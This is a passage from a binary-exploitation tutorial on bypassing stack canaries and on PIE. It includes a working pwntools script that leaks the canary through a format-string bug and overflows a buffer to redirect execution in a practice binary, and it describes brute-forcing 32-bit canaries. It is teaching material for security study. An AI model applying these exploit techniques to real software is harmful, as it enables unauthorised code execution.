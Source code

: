 ```
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

The returned pointer is 16 bytes after the canary start, so 12 bytes after the canary.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # overwrite canary with original value to not trigger
payload += b'A' * 12    # pad to return pointer
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```

##### 64-bit

Same source, same approach, just 64-bit. Try it yourself before checking the solution.

> Remember, in 64-bit format string goes to the relevant registers first and the addresses can fit 8 bytes each so the offset may be different.

[canary-64](../assets/canary-64.zip)

### Bruteforcing the Canary

This *is* possible on 32-bit, and sometimes unavoidable. It's not, however, feasible on 64-bit.

As you can expect, the general idea is to run the process loads and load of times with random canary values until you get a hit, which you can differentiate by the presence of a known plaintext, e.g. `flag{` and this can take ages to run and is frankly not a particularly interesting challenge.

## PIE

> Position Independent Code

### Overview

PIE stands for **Position Independent Executable**, which means that every time you run the file it gets **loaded into a different memory address**. This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.
